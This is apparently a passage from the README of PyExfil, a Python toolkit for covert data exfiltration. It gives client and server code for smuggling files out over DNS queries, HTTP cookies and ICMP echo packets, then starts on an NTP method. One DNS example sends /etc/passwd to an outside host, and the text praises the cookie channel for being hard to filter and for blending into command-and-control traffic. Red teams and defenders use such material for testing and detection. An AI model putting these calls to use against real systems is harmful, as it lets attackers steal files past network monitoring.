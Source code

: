 The information itself will be appended at the end.

```python
from pyexfil.network.DNS.dns_exfil import dns_exfil, dns_server

# For Client (exfil)
dns_exfil(  host="morirt.com",
            path_to_file="/etc/passwd"
            # port[53], max_packet_size=[128], time_delay=[0.01]
            )

# For Server (collecting)
# play_dead is a Boolean that will determine if the server pretends to respond to the queries or just collect them. Default is True.
dns_server(   host="demo.morirt.com"
              #port=53, play_dead=True
              )
```

#### HTTP Cookies
Exfiltration of files over HTTP protocol but over the Cookies field. The strong advantage of this is that the cookies field are supposed to be random noise to any listener in the middle and therefore is very difficult to filter. In theory, cookies done right should be a random blob of data.

The advantage of this method is that if the C&C/Exfil node are supposed to be in communication then the data itself should not be flagged.

```python
from pyexfil.network.HTTP_Cookies.http_exfiltration import send_file, listen

# For Client (exfil)
send_file(addr='http://www.morirt.com', file_path=FILE_TO_EXFIL)

# For Server (collecting)
listen(local_addr='127.0.0.1', local_port=80)
```

#### ICMP Echo 8
Uses ICMP 8 packets (echo request) to add a file payload to it. It re-implemented ICMP ping requests and some sniffers are known to capture it as malformed packets. Wireshark currently displays it as a normal packet.

```python
from pyexfil.network.ICMP.icmp_exfiltration import send_file, init_listener

# For Client (exfil)
ip_addr = "127.0.0.1"
send_file(ip_addr, src_ip_addr="127.0.0.1", file_path="", max_packetsize=512, SLEEP=0.1)

# For Server (collecting)
init_listener(ip_addr, saving_location="/tmp/")
```

#### NTP Request
Unlike NTP body, which uses the time stamps to establish communication, this module uses the NTP payload itself as the transmission container for the information. It will be setup on top of the NTP requests.

